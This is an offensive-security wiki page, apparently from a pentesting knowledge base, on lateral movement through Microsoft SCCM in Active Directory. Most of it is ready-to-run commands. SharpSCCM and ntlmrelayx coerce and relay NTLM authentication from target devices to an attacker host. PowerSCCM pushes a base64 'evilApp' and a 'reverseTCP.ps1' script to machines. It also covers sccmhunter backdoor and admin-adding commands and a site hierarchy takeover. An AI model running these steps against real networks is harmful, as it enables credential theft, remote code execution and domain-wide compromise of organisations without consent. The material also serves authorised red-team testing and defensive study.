


# Lateral Movement

## Theory

Since the main goal of SCCM is to deploy applications and services on the managed assets of the Active Directory, it is also a pretty good candidate to move latteraly on the network. With administrative rights on the primary site server, this can be done by deploying applications and scripts on the targets or coercing clients' authentication.

Additionnaly, SCCM permits to enumerate many data on the ressources. Among all the services offered by SCCM to the administrator, there is one named **CMPivot**. This service, located on the MP server, can enumerate all the resources of a computer or computer collection (installed software, local administrators, hardware specification, etc.), and perform administrative tasks on them. It uses a HTTP REST API, named **AdminService**, provided by the SMS Provider server.

Finally, as indicated by [Chris Thompson](https://mobile.twitter.com/\_mayyhem) in his article [SCCM Hierarchy Takeover](https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087), by default, when a new user is promoted to any SCCM administrative role on a primary site server (for example, `Full Administrator`), **the role is automatically propagated to the other SCCM site in the hierarchy by the CAS**.

This means that there is no security boundary between SCCM sites in a same hierarchy, and being able to takeover one SCCM site implicates to takeover all the others.

## Practice

### Admin & Special Account Enumeration

This step requires administrative privileges over the SCCM Management Point (MP) in order to query the MP's WMI database.



**Admin Users**

```powershell
SharpSCCM.exe get class-instances SMS_ADMIN
```

**Special Accounts**

```powershell
SharpSCCM.exe get class-instances SMS_SCI_Reserved
```

<div>

<figure><figcaption><p>Admin user enumeration in SCCM</p></figcaption></figure>

 <figure><figcaption><p>Special Account Enumeration in SCCM</p></figcaption></figure>

</div>



### Applications and scripts deployment



References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1: Confirm Access permissions**

```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

**Step 2: Find target device**

```powershell
# Search for device of user "Frank.Zapper"
SharpSCCM.exe get primary-users -u Frank.Zapper

# List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

**Step 3: Deploy Application to target device**

In this final step you can chose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
# Prep capturing server
## ntlmrelayx targeting 10.250.2.179
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# Also keep Pcredz running, just in case
Pcredz -i enp0s8 -t
```
```powershell
# Run the attack
SharpSCCM.exe exec -rid <TargetResourceID> -r <AttackerHost>
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

<div>

<figure><figcaption></figcaption></figure>

 <figure><figcaption></figcaption></figure>

</div>



With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```



### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the **AdminService** API, without using CMPivot, for post SCCM exploitation purpose.



From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u "$USER" -p "$PASSWORD" -ip "site_server_IP"
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```bash
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help <topic>' for details):

Database Commands
=================
get_collection  get_device  get_lastlogon  get_puser  get_user

Interface Commands
==================
exit  interact

PostEx Commands
===============
add_admin  backdoor  backup  delete_admin  restore  script

Situational Awareness Commands
==============================
administrators  console_users  ipconfig   osinfo    sessions
cat             disk           list_disk  ps        shares  
cd              environment    ls         services  software
```



From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

**Step 1: retrieve the ID of the resource to enumerate (a computer or a computer collection)**

```powershell
SharpSCCM.exe get resource-id -d "COMPUTER"
```

**Step 2: execute administrative tasks with CMPivot requests**

```powershell
# Enumerate the local administrators
SharpSCCM.exe invoke admin-service -r <resource_ID> -q "Administrators" -j

# Enumerate the installed softwares
SharpSCCM.exe invoke admin-service -r <resource_ID> -q "InstalledSoftware" -j
```

Instructions about how to write CMPivot queries are presented [here](https://learn.microsoft.com/fr-fr/mem/configmgr/core/servers/manage/cmpivot).



### SCCM Hierarchy takeover

There is nothing to do. Just promote a user to any SCCM administrative role on a primary site server (for example, `Full Administrator`), and **the role will be automatically propagated to the other SCCM site in the hierarchy by the CAS**.

## Resources






